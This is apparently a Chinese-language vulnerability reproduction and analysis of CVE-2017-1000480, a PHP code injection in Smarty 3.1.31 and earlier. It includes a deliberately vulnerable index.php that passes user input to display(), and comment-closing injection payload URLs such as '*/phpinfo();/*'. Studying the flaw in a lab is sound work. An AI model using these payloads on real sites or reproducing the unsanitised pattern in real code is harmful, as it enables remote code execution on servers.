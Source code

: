 （CVE-2017-1000480）Smarty\<=3.1.31 命令执行RCE
===============================================

一、漏洞简介
------------

在不清理模板名称的自定义资源上调用fetch（）或display（）函数时，3.1.32之前的Smarty
3容易受到PHP代码注入的攻击。

二、漏洞影响
------------

Smarty\<=3.1.31、3.1.32-dev

三、复现过程
------------

### 1、搭建环境

测试环境为： PHP5.6.40+Apache2+Smarty3.1.31+Debian9

    ➜  html mkdir smarty
    ➜  html cd smarty
    ➜  smarty mkdir cache compile templates
    ➜  smarty composer require smarty/smarty -v
    ➜  smarty sed -i -e 's/\^3.1/3.1.31/g' composer.json
    ➜  smarty composer update
    ➜  smarty sudo chmod -R 777 .

/var/www/html/smarty/index.php 如下：

    <?php
    require './vendor/autoload.php';

    class Smarty_Resource_Widget extends Smarty_Resource_Custom
    {
        protected function fetch($name, &$source, &$mtime)
        {
            $template = "Smarty <=3.1.31 RCE (CVE-2017-1000480)";
            $source = $template;
            $mtime = time();
            return 'mochazz';
        }
    }

    $smarty = new Smarty();
    $smarty->setCacheDir('cache');
    $smarty->setCompileDir('compile');
    $smarty->setTemplateDir('templates');

    $my_security_policy = new Smarty_Security($smarty);
    $smarty->enableSecurity($my_security_policy);
    $smarty->registerResource('username', new Smarty_Resource_Widget());
    $smarty->display('username:'.$_GET['mochazz']);

    ?>

### 2、漏洞分析

具体攻击 payload 如下：

    http://0-sec.org/index.php?mochazz=*/phpinfo();/*

![](resource/(CVE-2017-1000480)Smarty=3.1.31命令执行RCE/media/rId26.jpg)

我们直接从 display 方法开始跟进，会发现其最终会调用 render 方法。在
render
方法分别进行了：生成compile文件名、写入compile文件并包含两个操作。

![](resource/(CVE-2017-1000480)Smarty=3.1.31命令执行RCE/media/rId27.jpg)

在第一个操作：生成compile文件名时，我们传入 display 的参数会影响最终的
compile 文件名。例如下面两个 payload 生成的文件名是不一样的。

    # 代码：$smarty->display('username:'.$_GET['mochazz']);

    # payload1：http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();/*
    4f97532c32c10229713a39421c918cf16663bf6e_0.username.*.php

    # payload2：http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();//
    1e95a2d156a7edd4f6130643849a588dce4acb27_0.username.phpinfo();.php

这是因为 compile 文件名中，有一部分由 basename(\$source-\>name)
决定，这部分就是我们传入的 mochazz 参数。使用上面第一个 payload
时，文件名就会包含 *号。在 Linux 系统下，文件名允许包含* 号，但是
Windows 却不允许，这也是网络上部分文章说这个漏洞无法在 Windows
平台下利用。但是我们使用第二个 payload ，两个平台就都可以利用。

我们接着看第二个操作：写入 compile 文件并包含。首先，写入 compile
文件中的内容包含模板路径（即下图最后一行代码
\$\_template-\>source-\>filepath ），这个模板路径就是我们传入 display
方法的参数。虽然该参数被注释包裹，但是我们可以用 \*/ 闭合。写入 compile
文件，程序就开始包含该文件，最终导致代码执行（下图第137行）。

image
